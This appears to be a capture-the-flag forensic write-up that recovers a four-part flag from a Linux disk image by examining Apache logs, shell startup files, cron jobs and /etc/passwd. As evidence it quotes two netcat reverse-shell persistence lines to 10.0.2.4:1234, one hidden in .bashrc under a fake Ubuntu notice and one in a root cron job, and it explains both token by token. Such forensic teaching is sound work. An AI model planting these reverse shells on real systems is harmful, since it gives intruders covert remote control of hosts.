

# NuClear Listeners
## Category: Forensic



## Solution

So we have an E01 file
```bash
file NuClear_Listeners.E01 
NuClear_Listeners.E01: EWF/Expert Witness/EnCase image file format
```
Usually I would mount that on my linux ctf machine, but I went for FTK imager this time

Finally someone doing a Linux diskdump and not a windows one! 
So we have a machine with apache2 httpd installed. 

We also have 2 user
- spooky
- nginxwebservice

The latter seems suspicious as we already have apache2 installed?

Anyway this is our 2 starting point for our investigation.
- The apache2 web service
- The userspace content on the server

## Part 1
As any other service, the first thing I'll be always looking at are of course: logs

Logs for httpd are located in `/var/log/apache2`
When I take a look at `access.log`
```logs
10.0.2.4 - - [07/Oct/2025:23:56:22 +0000] "GET / HTTP/1.1" 200 324 "-" "curl/8.13.0"
10.0.2.4 - - [07/Oct/2025:23:56:25 +0000] "GET / HTTP/1.1" 200 324 "-" "curl/8.13.0"
10.0.2.4 - - [07/Oct/2025:23:56:30 +0000] "GET /admin HTTP/1.1" 404 436 "-" "curl/8.13.0"
10.0.2.4 - - [07/Oct/2025:23:56:41 +0000] "GET /randomfile1 HTTP/1.1" 404 436 "-" "TklDQ3tyM2Nvbl8="
10.0.2.4 - - [07/Oct/2025:23:56:41 +0000] "GET /frand2 HTTP/1.1" 404 436 "-" "TklDQ3tyM2Nvbl8="
10.0.2.4 - - [07/Oct/2025:23:56:41 +0000] "GET /.bash_history HTTP/1.1" 404 436 "-" "TklDQ3tyM2Nvbl8="
10.0.2.4 - - [07/Oct/2025:23:56:41 +0000] "GET /.bashrc HTTP/1.1" 404 436 "-" "TklDQ3tyM2Nvbl8="
10.0.2.4 - - [07/Oct/2025:23:56:41 +0000] "GET /.cache HTTP/1.1" 404 436 "-" "TklDQ3tyM2Nvbl8="
10.0.2.4 - - [07/Oct/2025:23:56:41 +0000] "GET /.config HTTP/1.1" 404 436 "-" "TklDQ3tyM2Nvbl8="
10.0.2.4 - - [07/Oct/2025:23:56:41 +0000] "GET /.cvs HTTP/1.1" 404 436 "-" "TklDQ3tyM2Nvbl8="
10.0.2.4 - - [07/Oct/2025:23:56:41 +0000] "GET /.cvsignore HTTP/1.1" 404 436 "-" "TklDQ3tyM2Nvbl8="
10.0.2.4 - - [07/Oct/2025:23:56:41 +0000] "GET /.forward HTTP/1.1" 404 436 "-" "TklDQ3tyM2Nvbl8="
[...]
```
We clearly see that someone tried to enumerate the apache2 content with ffuf or gobuster kind of tool.
I'm not a 100% sure about this but the first part of the flag have been injected as the "User-Agent"

`TklDQ3tyM2Nvbl8=` -> b64 decode -> `NICC{r3con_` 

Hint: In every forensic chal I make I always take the flag format and keep it a copy as b64, hex, and some few other very known encoding format to be able to recognize flag when parsing through loads of logs.

## Part 2

Lets take a look at our user,
Always looking at the file that are loaded with user sessions just to name a few:
- /etc/profile
- /etc/profile.d/*.sh
- ~/.profile
- ~/.bash_profile
- ~/.bash_login
- ~/.bashrc
- /etc/bash.bashrc
- /etc/environment
- ~/.xinitrc
- ~/.xsession
- /etc/X11/Xsession
- /etc/X11/Xsession.d/*
- ~/.config/autostart/*.desktop
- /etc/xdg/autostart/*.desktop
- ~/.config/systemd/user/*.service
- /etc/systemd/user/*.service
- /etc/systemd/system/*.service
- ~/.config/upstart/*.conf
- /etc/init/*.conf
- ~/.bash_logout
- /etc/skel/*
- ~/.zprofile
- ~/.zshrc
- /etc/zsh/zprofile
- /etc/zsh/zshrc

Rapidly by looking at `/home/spooky/.bashrc`
This has been append to it:
```bash
# Important Ubuntu Sytem Section, Do NOT modify #
nc -e /bin/bash 10.0.2.4 1234 2>/dev/null &
echo "You are Now Recieving Updates From Ubuntu on Port 1234"
# YW5kX3AzcnMxc3QzbmNlXyAgICgyKQ== #
```

I feel now very secured Thank you Ubuntu ! 

Explanation:
This command launches `nc (netcat)` to open a `TCP connection to IP 10.0.2.4 on port 1234` and ties that connection to a `shell (/bin/bash)` so that remote input is executed on the host. Standard error is redirected to `/dev/null to hide error messages`, and the `trailing &` puts the process into the background. In short, it attempts to create a backgrounded reverse shell from the host to 10.0.2.4:1234.

Token-by-token breakdown:

- `nc` — netcat, a utility for raw TCP/UDP connections.
- `-e /bin/bash` — execute /bin/bash after the connection is established, attaching the shell’s stdin/stdout to the socket (creates the interactive remote shell).
- `10.0.2.4` — the remote IP address the host connects to.
- `1234` — the remote TCP port.
- `2>/dev/null` — redirect file descriptor 2 (stderr) to /dev/null so error output is discarded.
- `&` — run the command in the background (shell returns immediately).

`YW5kX3AzcnMxc3QzbmNlXyAgICgyKQ==` -> b64 decode -> `and_p3rs1st3nce_   (2)`

## Part 3
As nothing else came out of interest from the user file, the next thing I like to verify is
- cron job
- systemd service

So I will take a look at these:
- /etc/crontab
- /etc/cron.d/ (fichiers de jobs système, ex. /etc/cron.d/myjob)
- /etc/cron.hourly/
- /etc/cron.daily/
- /etc/cron.weekly/
- /etc/cron.monthly/
- /var/spool/cron/crontabs/
- /var/spool/cron/
- /etc/cron.allow 
- /etc/cron.deny
- /etc/anacrontab
- /etc/systemd/system/*.timer
- /usr/lib/systemd/system/*.timer
- ~/.config/systemd/user/*.timer

Farily quickly /var/spool/cron/root yield:
```bash
# m h  dom mon dow   command
* * * * * nc 10.0.2.4 1234 -e /bin/sh
# sh... YzBtZTJfaW5fICAoMyk= #
```

This cron entry runs `every minute` and attempts to `open a TCP connection to 10.0.2.4:1234 with nc`, handing an `interactive /bin/sh` to the remote host.

Token-by-token breakdown:
- `* * * * *` — run the command once every minute.
- `nc` — netcat (a networking utility capable of making raw TCP/UDP connections).
- `10.0.2.4` — remote IP address to connect to.
- `1234` — remote TCP port to connect to.
- `-e` /bin/sh — instruct `nc` to execute `/bin/sh` and attach its `stdin/stdout/stderr` to the socket (effectively giving the remote side an interactive shell). 

`YzBtZTJfaW5fICAoMyk=` -> b64 decode -> `c0me2_in_  (3)`

## Part 4 
Finally I found the last part early as I always take a peek for user in `/etc/passwd` pretty early in the analysis

Also note that nginxwebservice user was VERY suspicious as apache2 httpd is installed and they usually serve the same purpose

`nginxwebservice:x:1001:1001:NGINX WEB CLIENT bUBueV9mbEB2b3JzfSAgICg0KQ==:/home/nginxwebservice:/bin/bash`

The last part is in the GECOS of the user.
- `nginxwebservice` — account username.
- `x` — password placeholder (actual hashed password stored in /etc/shadow).
- `1001` — UID (user ID).
- `1001` — GID (group ID).
- `NGINX WEB CLIENT bUBueV9mbEB2b3JzfSAgICg0KQ==` — GECOS / comment field (usually full name, contact info, or descriptive note). 
- `/home/nginxwebservice` — home directory for the account.
- `/bin/bash` — login shell (interactive shell).

`bUBueV9mbEB2b3JzfSAgICg0KQ==` -> b64 decode -> `m@ny_fl@vors} (4)`

## Flag

`NICC{r3con_and_p3rs1st3nce_c0me2_in_m@ny_fl@vors}`

And rawr does the dragon